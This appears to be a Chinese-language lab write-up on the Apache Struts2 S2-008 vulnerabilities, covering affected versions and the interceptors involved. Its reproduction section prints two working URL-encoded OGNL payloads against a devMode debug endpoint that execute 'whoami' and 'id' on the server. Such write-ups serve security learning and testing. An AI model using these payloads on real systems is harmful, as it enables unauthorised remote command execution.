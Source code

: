 # Struts2_008_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			为了防止攻击者在参数内调用任意方法，默认情况下将标志xwork.MethodAccessor.denyMethodExecution设置为true，并将SecurityMemberAccess字段allowStaticMethodAccess设置为false。另外，为了防止访问上下文变量，自Struts 2.2.1.1开始，在ParameterInterceptor中应用了针对参数名称的改进字符白名单：`acceptedParamNames = "[a-zA-Z0-9\.][()_']+";`

在某些情况下，可以绕过这些限制以执行恶意Java代码。

1，在Struts <= 2.2.3中执行远程命令（ExceptionDelegator）即**S2-007**
将参数值应用于属性时发生异常时，该值将作为OGNL表达式求值。例如，在将字符串值设置为整数属性时会发生这种情况。由于未过滤值，因此攻击者可以滥用OGNL语言的功能来执行任意Java代码，从而导致远程命令执行。已报告此问题（https://issues.apache.org/jira/browse/WW-3668），该问题已在Struts 2.2.3.1中修复。但是，执行任意Java代码的能力已被忽略。

2，在Struts <= 2.3.1（CookieInterceptor）中执行远程命令
参数名称的字符白名单不适用于CookieInterceptor。将Struts配置为处理cookie名称时，攻击者可以执行对Java函数具有静态方法访问权限的任意系统命令。因此，可以在请求中将标志allowStaticMethodAccess设置为true。虽然cookiename没有做特殊字符的限制，会被当作ognl代码执行。不过java的webserver(tomcat等)在cookiename中禁掉了很多非主流字符，该漏洞局限性较大，危害较小。

3，Struts <= 2.3.1中的任意文件覆盖（ParameterInterceptor）
由于Struts 2.2.3.1禁止在参数内访问标志allowStaticMethodAccess，因此攻击者仍然可以仅使用String类型的一个参数访问公共构造函数以创建新的Java对象，并仅使用String类型的一个参数访问其setter。例如，在创建和覆盖任意文件时可能会滥用此权限。要将禁止的字符注入文件名，可以使用未初始化的字符串属性。

4，在Struts <= 2.3.17中远程执行命令（DebuggingInterceptor）
尽管本身不是安全漏洞，但请注意，以开发人员模式运行并使用DebuggingInterceptor的应用程序也容易执行远程命令。尽管应用程序在生产过程中绝不应在开发人员模式下运行，但开发人员应意识到，这样做不仅会带来性能问题（如文档所述），而且还会对安全性造成严重影响。



ps：转载自（god zzz师傅）

​		**S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。**

​			影响版本

  		2.1.0 - 2.3.1

### 0x02漏洞复现

#### 无回显payload：

/devmode.action？debug=command&expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29

#### 有回显payload:

/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27**id**%27%29.getInputStream%28%29%29)

​			**登录界面**

![S2_008_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_008_rce_1.jpg)

​			**Burpsuite抓包，发送第一个payload，有回显，id被执行。**

![S2_008_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_008_rce_2.jpg)



### 0x03参考资料

https://www.cnblogs.com/Feng-L/p/13644818.html

https://blog.csdn.net/god_zzZ/article/details/94398559